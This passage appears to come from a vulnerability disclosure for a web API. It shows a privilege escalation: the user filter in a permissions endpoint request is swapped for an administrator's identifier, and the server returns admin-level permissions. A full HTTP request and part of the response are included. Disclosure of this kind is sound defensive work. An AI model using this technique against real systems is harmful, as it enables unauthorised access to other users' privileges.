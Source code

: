 ```http
            "companyCountryTranslationKey": "*******",
            "type": "CompanyUserGetResponseDTO"
        }
    }]
}
```

After knowing an identifier of an administrator user, it would be possible to exploit a privilege escalation by replacing or adding the corresponding filter with the administrator's identifier and getting the same privileges:

### Request

```http
GET /api/functionalities/allPermissionsFunctionalities?filter[companyUsers]=user.id=='94****************************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ.....
Origin: https:/localhost:3000
Connection: keep-alive
Referer: https:/localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```

### Response

```http
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 18:53:00 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 68833
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "meta": {
        "Functionalities": [{
            "functionalityId": 1,
            "permissionId": 1,
            "effectivePriority": "PERMIT",
            "effectiveBehavior": "PERMIT",
            "translationKey": "general.userProfile",
            "type": "FunctionalityPermissionDTO"
        }, {
            "functionalityId": 2,
            "permissionId": 2,
            "effectivePriority": "PERMIT",
            "effectiveBehavior": "PERMIT",
            "translationKey": "general.my_profile",
            "type": "FunctionalityPermissionDTO"
        }, {
            "functionalityId": 3,
            "permissionId": 3,
            "effectivePriority": "PERMIT",
```